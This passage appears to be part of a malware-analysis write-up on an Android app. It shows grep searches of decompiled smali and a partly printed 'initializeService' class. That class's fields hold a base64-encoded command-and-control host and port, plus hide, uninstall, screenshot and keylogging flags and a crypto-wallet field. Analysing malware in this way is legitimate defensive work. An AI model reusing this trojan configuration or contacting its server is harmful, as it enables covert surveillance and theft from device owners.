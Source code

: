 ```bash
grep -Er "Socket|connect|URLConnection|newInstance" smali/ | less
```

```bash
grep -Erho ':[0-9]{2,5}' smali/ | sort -u
```

```bash
grep -Erho 'http[s]?://[^"]+' smali/ | sort -u
```

**But nothing worked**.
So I decided to look at the **java code and search for classes**.
You can use **MobSF** or simply **jadx**.

After search some time, I found the `initializeService.java` class.
Here's the **java code**:
```java
package com.hostel.gybbpabtniopoetzeacrkmlxdhuvgpvnwtahmsaxmtnaltfrgf2.keydkuycdcczonreivsieapzgrzkejxcowwsziydpvouihgqnu3;

import android.app.Service;
[...]
[...]
IMPORTS
[...]
[...]
import java.util.List;

/* loaded from: classes.dex */
public class initializeService extends Service {
    public static String ClientHost = "My4xMjEuMTM5Ljgy";
    public static String ClientPort = "MTA4MjQ=";
    public static String HideType = "C";
    public static Context appContext;
    public static String ifScreenShot;
    static initializeService st;
    public static String ConnectionKey = utilities.eosjvohlvdszzfnoawempbvgtfrhiukwdrdirywuhpeetixbkj45("MHhTMXJ4NTg=");
    public static String uninstall = "on";
    public static String CLINAME = "Client";
    public static List<PacketClass> Li = null;
    public static List<niqiqgqxxajrlskldmrbzmbkhlvayewbedibhmfoaetoujkdjh6> Lcl = null;
    public static long eco = -1;
    public static int plg = -1;
    public static int inx = -1;
    public static String[] cmn = {"", "", "", "", "", "", "", "", "", "", "", "", "", "", "", "", ""};
    public static boolean k = false;
    public static boolean klive = false;
    public static boolean FORCA = false;
    public static boolean FORSC = false;
    public static String usdtadress = "";
    public static AccessService MyAccess = null;
    public static boolean allok = false;
    public static BroadcastReceiver br = null;
    public static BroadcastReceiver daterecever = null;
[...]
[...]
[...]
[...]
[...]
```
